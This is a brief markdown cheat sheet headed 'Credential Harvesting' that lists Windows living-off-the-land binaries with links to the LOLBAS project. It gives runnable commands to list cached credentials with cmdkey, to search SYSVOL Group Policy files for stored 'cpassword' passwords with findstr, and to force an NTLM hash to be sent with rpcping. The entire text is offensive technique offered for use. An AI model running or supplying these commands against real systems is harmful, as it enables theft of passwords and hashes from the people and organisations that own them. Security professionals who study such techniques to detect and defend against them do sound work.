 # Credential Harvesting
1. cmdkey
https://lolbas-project.github.io/lolbas/Binaries/Cmdkey/#credentials

List cached credentials
```
cmdkey /list
```

2. findstr
https://lolbas-project.github.io/lolbas/Binaries/Findstr/#credentials

Search for stored password in Group Policy files stored on SYSVOL.
```
findstr /S /I cpassword \\sysvol\policies\*.xml
```

3. rpcping
https://lolbas-project.github.io/lolbas/Binaries/Rpcping/#credentials

Send a RPC test connection to the target server (-s) and force the NTLM hash to be sent in the process.
```
rpcping -s 127.0.0.1 -e 1234 -a privacy -u NTLM
```
